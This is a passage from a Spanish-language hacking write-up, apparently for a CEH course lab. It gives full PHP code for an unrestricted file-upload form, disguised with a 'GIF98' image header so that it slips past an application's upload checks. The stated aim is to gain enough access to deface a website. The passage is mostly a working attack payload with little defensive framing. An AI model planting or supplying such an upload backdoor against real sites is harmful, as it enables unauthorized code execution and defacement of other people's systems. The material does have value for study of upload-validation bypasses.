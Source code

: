 

#### Creando nuestro Custom File Upload sin restricciones

No voy a ir en detalle sobre como crear este formulario PHP, dejaré el código que preparé debajo y el repositorio de una idea similar que me sirvió para mas o menos armar todo.

Es muy posible que el mecanismo de verificación de subidas que esta utilizando esta app pueda detectar nuestro código PHP como una app, a pesar de indicarle **`Content-Type`**, **`Filename`** y **`headers`** como si fueran los de una imagen.  Por este motivo intentaremos enmascarar lo mejor posible nuestro formulario, al mismo tiempo que tratamos de mantenerlo lo más pequeño posible.

Lo que haremos es crear un archivo **`PHP`** y **`HTML`** muy pequeño que simplemente genere un formulario de subida de archivos sin ningún tipo de restricción. Si logramos que este pequeño form suba sin problema, estaremos más cerca de tener el acceso necesario para hacer el defacement.

El código quedaría de esta manera:

{% hint style="success" %}
Puedes descargar el ejemplo que usé de base desde el siguiente repositorio: 👉 [LINK](https://gist.github.com/taterbase/2688850)
{% endhint %}

```text
GIF98
<?php

if(isset($_POST['upload'])){
  $file_name = $_FILES['file']['name'];
  $file_type = $_FILES['file']['type'];
  $file_size = $_FILES['file']['size'];
  $file_temp = $_FILES['file']['tmp_name'];
  $file_save = ".\\". $file_name;
  move_uploaded_file($file_temp, $file_save);
}

echo '
  <!DOCTYPE html>
  <html>
  <head>
    <title>CEH-UTN-UPLOAD</title>
  </head>
  <body>
    <br>
    <img src="https://i.imgur.com/kNiob7g.png" alt="by tzero86">
    <form action="?" method="POST" enctype="multipart/form-data">
      <label>Subir Archivo</label>
      <p><input type="file" name="file"></p>
      <p><input type="submit" name="upload" value="Subir"></p>
    </form>
  </body>
  </html>
'
?>
```
